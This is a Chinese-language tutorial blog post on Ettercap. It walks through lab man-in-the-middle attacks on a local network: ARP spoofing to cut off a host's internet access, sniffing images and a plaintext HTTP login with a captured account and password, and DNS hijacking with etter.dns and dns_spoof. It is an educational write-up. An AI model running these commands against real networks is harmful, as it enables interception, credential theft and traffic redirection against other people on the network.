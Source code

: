 ```yaml
---
title: Ettercap 简易入门
date: 2019-07-20 00:03:58
tags:
  - Kali
  - 实践记录
  - DNS
  - 网络
categories:
  - 安全工具
---
```


关于 Ettercap 的有趣例子。

<!--more-->

## 安装与配置

安装很容易：

```shell
$ apt install ettercap-text-only
```

使用前需要修改配置，给予 Ettercap 足够的权限。配置文件位于 `/etc/ettercap/etter.conf`，找到：

```
[priv]
ec_uid = 65500
ec_gid = 65500
```

将两个值都修改为 0，表示给予 root 权限。

另外，如果想嗅探 https 包则需要根据配置文件的提示去除指定的注释。我这里使用的是 Linux 系统，防火墙为 iptables，所以我取消注释了 177 和 178 两行。

```
# if you use iptables:
   redir_command_on = "iptables -t nat -A PREROUTING -i %iface -p tcp --dport %port -j REDIRECT --to-port %rport"
   redir_command_off = "iptables -t nat -D PREROUTING -i %iface -p tcp --dport %port -j REDIRECT --to-port %rport"
```

## ARP 欺骗

我们知道，ARP 请求包是广播发送的，然而 ARP 应答包则是单播发送的。因此通过 Ettercap，我们可以在收到同一网段内的其它主机广播的 ARP 请求后，向它们发送 ARP 应答包，使它们认为我们的主机就是网关。这样一来，任何发送至外网的请求都将经过我们的主机。

如果我们成功实施了 ARP 欺骗，作为一个伪网关，就可以截获同网段内所有发送至外网的流量。我们可以选择不再将这些数据包转发至外网，这将使得该网段内所有其它主机无法上网：

```shell
$ arpspoof -i eth0 -t 192.168.159.128 192.168.159.2
```

其中 `-i` 指定网卡接口，`-t` 指定要欺骗的目标主机，最后的 IP 地址是本网段内真正的网关地址。如何查看真正的网关地址呢？

简便的方法是直接查看当前连接的网络属性，里面会直接显示 `默认网关` 字段。另一种方法是 `traceroute 任意外网网址 `，这样第一跳的地址必定是网关地址。

```shell
$ traceroute baidu.com
traceroute to baidu.com (123.125.114.144), 30 hops max, 60 byte packets
 1  _gateway (192.168.159.2)  0.947 ms  0.819 ms  0.681 ms^C
```

结果：

![图 1](feature.jpg)

![图 2](1.jpg)

或者，我们照常转发流量（这个操作由 Ettercap 自动完成），但是将数据包中的图片存储下来：

```shell
$ ettercap -i eth0 -Tq -M arp:remote /// ///
$ driftnet -i eth0 -b -a -d pic
```

其中 `-T` 表示只使用命令行，`-q` 表示不显示具体数据包信息，`-M` 指定使用的模式，`///` 表示同网段下所有主机，`-b` 表示声音提醒，`-a` 保存图片，`-d` 指定保存目录。

由于 Ettercap 截获的是整个数据包，因此常常可以获取比图片更敏感的信息。举个例子，假设我们已经开始 ARP 欺骗：

```shell
$ ettercap -i eth0 -Tq -M arp:remote /// ///
```

这时，同网段主机访问了一个 http 网站并进行登录。我们可以在命令行看到：

![图 3](2.jpg)

由于帐号和密码是明文传输的，我们可以轻易得到帐号 `10175101282` 和密码 `aaaaaa`。

## DNS 劫持

作为伪网关，我们当然也可以将一些域名解析到指定的 IP，实现 DNS 劫持。首先修改另一个配置文件 `/etc/ettercap/etter.dns`，在这里面可以输入域名匹配规则与解析规则，如:

```
*.edu.cn           A   192.168.159.135
```

可以看出，前面是一个类正则的域名匹配规则，然后中间指定 `A Record`，最后指定要解析到哪个 IP 地址上，这里我们使用了攻击者主机内网 IP。

保存后，我们在本机开一个服务器：

```shell
$ service apache2 start
```

然后开始 DNS 劫持：

```shell
$ ettercap -i eth0 -Tq -P dns_spoof /// ///
```

当受害者主机访问类似 [aaa.ecnu.edu.cn](#) 的域名时，将会看到我们的 Apache 服务器的默认页面，这样就完成了 DNS 劫持。命令行提示：

```
dns_spoof: A [aaa.ecnu.edu.cn] spoofed to [192.168.159.135]
```

结果：

![图 4](3.jpg)

## 小结

显然上述攻击都有一个共同的前提，那就是攻击者和受害者处于同一网段。由此不难发现，局域网内的安全是十分脆弱的，这是由局域网内主机互相访问的便利性所带来的代价，而如何防护这类攻击是需要进一步思考的问题。
